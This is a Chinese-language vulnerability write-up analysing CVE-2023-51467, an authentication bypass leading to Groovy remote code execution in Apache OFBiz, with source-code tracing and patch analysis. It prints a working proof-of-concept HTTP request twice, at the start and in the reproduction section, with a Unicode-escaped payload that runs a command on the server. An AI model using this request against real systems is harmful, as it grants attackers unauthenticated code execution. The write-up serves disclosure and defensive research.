







# 奇安信攻防社区-Apache OFBiz groovy 远程代码执行漏洞分析（CVE-2023-51467）

### Apache OFBiz groovy 远程代码执行漏洞分析（CVE-2023-51467）

Apache OFBiz groovy 远程代码执行漏洞分析（CVE-2023-51467）

作者：le1a@threatbook  
校验：jweny@threatbook

# 漏洞分析

在上一次的漏洞CVE-2023-49070中，修复方式仅仅是删除了XML-RPC模块，但全局的权限登陆校验的Filter仍未修复，导致了依然可以权限绕过去调用其他后台接口。这次漏洞就是与ProgramExport模块相关。

ProgramExport 模块是 OFbiz 中的一个模块，用于将 Groovy 脚本导出为 Java 类。它允许您在 OFbiz 中使用 Groovy 脚本，而无需将它们编译成 Java 字节码。

有趣的是，该后台漏洞在20年就披露了，而当时由于需要鉴权，所以被官方驳回，而修复的方案仅仅是不允许创建jsp文件......


言归正传，根据上一次漏洞的权限绕过payload可构造如下POC：

```http
POST /webtools/control/ProgramExport;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded

groovyProgram=\u006A\u0061\u0076\u0061\u002E\u006C\u0061\u006E\u0067\u002E\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u002E\u0067\u0065\u0074\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u0028\u0029\u002E\u0065\u0078\u0065\u0063\u0028\u0022\u006F\u0070\u0065\u006E\u0020\u002D\u0061\u0020\u0063\u0061\u006C\u0063\u0075\u006C\u0061\u0074\u006F\u0072\u0022\u0029
```

将断点打在ProgramExport.groovy


入口点在`ControlServlet#doGET()`中，然后调用了`handler.doRequest()`方法。在调用`handler.doRequest()`之前,主要是做请求预处理,包括获取用户会话信息、设置响应头、准备delegator、dispatcher、security等对象,以及打印调试日志等。这些预处理为后续的业务处理提供必要的上下文和资源。

跟进到`handler.doRequest()`


这里根据`nextRequestResponse.type`的值来选择后续执行逻辑

而nextRequestResponse来自于这里

```java
ConfigXMLReader.RequestResponse successResponse = requestMap.requestResponseMap.get("success");
        if ((eventReturn == null || "success".equals(eventReturn)) && successResponse != null && "request".equals(successResponse.type)) {
            // chains will override any url defined views; but we will save the view for the very end
            if (UtilValidate.isNotEmpty(overrideViewUri)) {
                request.setAttribute("_POST_CHAIN_VIEW_", overrideViewUri);
            }
            nextRequestResponse = successResponse;
        }
```

requestMap中的requestResponseMap以及success Response是在解析controller.xml配置文件时读取并设置的。

具体代码在ConfigXMLReader类的parseRequestMap方法中:

```java
public void parseRequestMap(Element requestMapElement) {
  RequestMap requestMap = new RequestMap();
  requestMap.securityAuth = "true".equals(requestMapElement.getAttribute("auth"));
  requestMap.securityCert = "true".equals(requestMapElement.getAttribute("cert"));
  requestMap.securityExternalView = "true".equals(requestMapElement.getAttribute("external-view"));
  requestMap.securityDirectRequest = "true".equals(requestMapElement.getAttribute("direct-request")) ;  
  requestMap.securityHttps = "true".equals(requestMapElement.getAttribute("https"));

  // 解析event、response等子元素
  List<? extends Element> childElements = UtilXml.childElementList(requestMapElement);
  for (Element childElement: childElements) {
    if ("event".equals(childElement.getTagName())) {
      // 解析event元素  
    } else if ("response".equals(childElement.getTagName())) {
      // 解析response元素
      RequestResponse requestResponse = new RequestResponse();
      requestResponse.name = childElement.getAttribute("name");
      requestResponse.type = childElement.getAttribute("type"); 
      requestResponse.value = childElement.getAttribute("value");

      requestMap.requestResponseMap.put(requestResponse.name, requestResponse);  
    } else if ("success".equals(childElement.getTagName())) {
      // 解析success响应
      RequestResponse successResp = new RequestResponse();
      successResp.type = childElement.getAttribute("type");
      successResp.value = childElement.getAttribute("value");
      requestMap.requestResponseMap.put("success", successResp);
    }
  }

  // 添加到ControllerConfig的map中
  ccfg.addRequestMap(requestMap); 
}
```

可以看到,在解析每个`<request-map>`时,会解析出其success响应,添加到`requestResponseMap`中,供后续使用。

所以requestMap和其中的responses都是在启动初始化时从配置文件解析和设置的。

在controller.xml中也能看到type的值为view


继续跟进到`renderView()`


这里主要是获取渲染CONTEXT,并准备好响应头的各种配置,以供后续视图渲染使用。

中间经过几层调用后，来到了关键的`org.apache.ofbizz.widget.model#runSubAction()`


这里执行了ProgramExport.groovy，而action源于上一层调用


这里的actions元素也是从视图配置的XML文件中获取的。




然后继续跟进到`runAction()`



继续跟进


继续跟进



继续跟进



最终执行了Groovy代码


## 补丁分析

在新的补丁中，更改了最后的login返回逻辑，如果前面都通过了，不再是根据requirePasswordChange的真假来判断，而是直接返回error，也就是前面传入Y，使得requirePasswordChange为True行不通了


但是仔细观察发现，还有一处`return requirePasswordChange ? "requirePasswordChange" : "error";`没有修改



这里使用`isEmpty()`判断是否为空，需要null或者长度为0，所以空字符串正好满足



那是不是username和password为空就能再次bypass呢？？？

经过实际测试发现，在上一个版本的确是可以成功，因为上个版本中的`checklogin`方法调用`login`方法的时候使用的并不是`isEmpty()`，而是判断是否为null。所以空字符串正好钻了空子，既不等于null，又满足`isEmpty()`


而新版补丁改为了`isEmpty()`，与后续`login()`校验一致，导致没办法绕过了。

# 漏洞复现

1.  网站首页如下图：


2.使用如下POC进行验证

```php
POST /webtools/control/ProgramExport;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded

groovyProgram=\u006A\u0061\u0076\u0061\u002E\u006C\u0061\u006E\u0067\u002E\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u002E\u0067\u0065\u0074\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u0028\u0029\u002E\u0065\u0078\u0065\u0063\u0028\u0022\u006F\u0070\u0065\u006E\u0020\u002D\u0061\u0020\u0063\u0061\u006C\u0063\u0075\u006C\u0061\u0074\u006F\u0072\u0022\u0029
```


